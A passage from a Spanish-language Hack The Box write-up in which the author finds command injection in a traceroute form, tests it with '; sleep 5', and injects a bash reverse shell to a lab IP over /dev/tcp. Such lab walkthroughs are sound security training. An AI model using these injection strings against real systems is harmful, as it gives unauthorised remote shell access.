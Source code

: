 ![Command Injection](CommandInjection.png)
**Bingo!!**
## Obtener Shell
Esta interfaz me recuerda a varias máquinas como [Perfection](https://app.hackthebox.com/machines/Perfection) o [CozyHosting](https://app.hackthebox.com/machines/559) (actualmente no tengo WriteUp's de estas máquinas, pero recomiendo revisar los videos de _Ippsec_ sobre ellas).
Volviendo a la máquina, intentemos un clásico [Command Injection](https://portswigger.net/web-security/os-command-injection) para verificar si el sitio es vulnerable, agregando después de la IP lo siguiente: `; sleep 5`.
:::note
Antes de probar algo en un sitio, debemos pensar en cómo funciona la aplicación web en segundo plano, para no romper algo en un entorno real. En este caso, sospecho que la aplicación está ejecutando el comando _traceroute 8.8.8.8_ en el fondo.
:::
Al ejecutar este comando, el sitio tardó 5 segundos en responder. Esto significa que el _command injection_ es posible. Entonces, enviemos directamente una _reverse shell_, agregando lo siguiente al campo existente: `; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.16/443 0>&1'`.